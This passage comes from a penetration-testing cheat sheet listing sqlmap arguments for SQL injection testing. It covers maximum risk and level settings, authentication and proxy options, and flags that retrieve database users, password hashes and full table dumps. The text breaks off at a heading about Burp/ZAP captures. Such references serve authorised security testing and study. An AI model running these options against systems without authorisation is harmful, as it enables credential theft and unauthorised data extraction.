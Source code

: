 {{#include ../../banners/hacktricks-training.md}}

# Basic arguments for SQLmap

## Generic

```bash
-u "<URL>"
-p "<PARAM TO TEST>"
--user-agent=SQLMAP
--random-agent
--threads=10
--risk=3 #MAX
--level=5 #MAX
--dbms="<KNOWN DB TECH>"
--os="<OS>"
--technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
--batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
--auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
--proxy=PROXY
```

## Retrieve Information

### Internal

```bash
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
```

### DB data

```bash
--all #Retrieve everything
--dump #Dump DBMS database table entries
--dbs #Names of the available databases
--tables #Tables of a database ( -D <DB NAME> )
--columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column
```

# Injection place

## From Burp/ZAP capture
